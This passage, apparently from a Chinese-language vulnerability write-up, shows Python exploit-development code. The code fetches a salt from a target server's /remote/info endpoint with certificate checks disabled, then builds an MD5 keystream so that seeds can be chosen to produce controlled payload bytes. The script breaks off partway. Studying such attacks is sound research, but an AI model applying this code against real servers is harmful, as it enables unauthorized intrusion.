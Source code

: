 **salt**可通过请求 **/remote/info**获取到它的值  
  
```
salt = ''
salt_url = "https://192.168.18.123:4433/remote/info"
def get_salt():
 s = requests.get(salt_url, verify=False)
 data = s.text.split(' ')[4]
 return data.split("'")[1]
salt = get_salt().encode()

```  
  
#### seed部分  
  
S0=MD5(salt∣seed∣‘‘GCC is the GNU Compiler Collection.′′)  
  
我们可以看到密钥流的生成，salt是不可控的，后面的字符串是固定的，要想做到稳定的字节生成，就需要从seed中入手  
  
哈希碰撞脚本如下  
  
```
import hashlib
import requests
#该文件完成了
#   md5fun  完成对对应长度对应seed的md5值生成 
#   get_salt 函数完成了像服务器获取salt值
#   md5hex完成了对应的md5值碰撞
#   hex2str  对payload转化为字符串形式
#   crypt2hex  碰撞出对应的seed，，先对字节流进行加密，然后转化为字符串

def md5fun(salt, seed, payloadlen):
    """    生成基于给salt和种子的 MD5 密钥流。    :param salt: 盐值，类型为 bytes    :param seed: 种子值，类型为 bytes    :param payloadlen: 输入数据的长度    :return: 生成的密钥流，类型为 bytes    """
    # 初始化数据，即第一次
    s0 = hashlib.md5()
    s0.update(salt)
    s0.update(seed[:8])  # 只取前 8 字节作为种子
    s0.update(b"GCC is the GNU Compiler Collection.")

    # 计算第一个 MD5 值
    buffer = s0.digest()
    print("Initial buffer:", buffer.hex())  # 打印初始 buffer

    # 根据不同长度的 payload 生成对应的 md5 值
    while payloadlen >= len(buffer):
        m = hashlib.md5()
        m.update(buffer[-16:])  # 更新 MD5 使用最后 16 个字节
        result = m.digest()
        buffer += result

    return buffer

def get_salt(url):
    """    从指定的 URL 获取salt值并返回。    :param url: 获取salt值的请求 URL    :return: 获取到的salt值，类型为 bytes    """
    try:
        response = requests.get(url, verify=False)
        response.raise_for_status()
        data = response.text.split(' ')[4]  
        salt = data.split("'")[1]
        return salt.encode()
    except requests.RequestException as e:
        print(f"请求错误: {e}")
        return None
    except IndexError:
```